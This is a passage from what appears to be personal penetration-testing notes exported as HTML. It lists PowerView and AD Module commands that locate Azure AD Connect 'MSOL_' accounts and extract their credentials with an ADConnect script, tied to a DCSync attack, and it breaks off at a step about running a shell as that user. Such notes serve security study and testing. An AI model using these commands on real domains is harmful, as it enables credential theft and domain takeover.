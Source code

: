 DCSync</li></ul><p id="57e75900-4a82-43d6-a27b-a71144efdbca" class=""><strong>Get User and Extract Creds</strong></p><pre id="8c98b032-3b51-48fb-b092-2805f2c1205c" class="code"><code># PowerView
Get-DomainUser -Identity &quot;MSOL_*&quot; -Domain 0xd4y.local 

# AD Module
Get-ADUser -Filter &quot;samAccountName -like &#x27;MSOL_*&#x27;&quot; -Server 0xd4y.local -Properties * | select SamAccountName,Description | fl

# Source ADConnect PS Script
. .\adconnect.ps1

# Extract creds of MSOL_&lt;ID&gt; user
ADConnect

# Run CMD instance as MSOL_&lt;ID&gt; user